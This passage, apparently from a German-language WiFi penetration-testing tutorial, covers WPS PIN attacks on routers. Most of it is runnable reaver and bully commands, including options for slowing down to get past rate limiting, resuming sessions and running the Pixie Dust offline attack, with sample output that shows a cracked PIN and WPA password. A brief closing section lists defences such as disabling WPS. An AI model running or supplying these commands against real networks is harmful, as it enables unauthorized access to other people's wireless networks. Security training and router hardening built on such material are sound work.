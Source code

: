 **Erfolg!** PIN und Passwort gefunden.

**Erweiterte Optionen:**

```bash
# Mit delay (langsamer, umgeht Rate-Limiting)
reaver -i wlan0 -b AA:BB:CC:DD:EE:FF -d 5 -vv

# Mit bekannten ersten 4 Ziffern
reaver -i wlan0 -b AA:BB:CC:DD:EE:FF -p 1234 -vv

# Session speichern (fortsetzbar)
reaver -i wlan0 -b AA:BB:CC:DD:EE:FF -s sessions/ -vv
# Bei Abbruch: Fortsetzen
reaver -i wlan0 -b AA:BB:CC:DD:EE:FF -s sessions/ -vv
```

### WPS Pixie Dust Attack

**Noch schneller: Pixie Dust**

Manche Router haben schwache Zufallszahlen:
- Offline-Berechnung möglich
- Sekunden statt Stunden

```bash
# Mit reaver + pixiedust
reaver -i wlan0 -b AA:BB:CC:DD:EE:FF -K -vv

# -K = Pixie Dust Attack

# Wenn anfällig:
# [Pixie-Dust] WPS PIN: '12345678'
# [Pixie-Dust] WPA PSK: 'Password123'
```

**Oder mit bully:**
```bash
apt-get install bully

bully -b AA:BB:CC:DD:EE:FF -d -v 3 wlan0

# -d = Pixie Dust
```

### WPS Schutz

**Als Admin:**
- **WPS komplett deaktivieren** (beste Lösung)
- Rate-Limiting aktivieren (verzögert Angriff)
- Router-Firmware updaten

**Viele Router:**
- "WPS Lock" nach fehlgeschlagenen Versuchen
- Reaver erkennt das und stoppt

---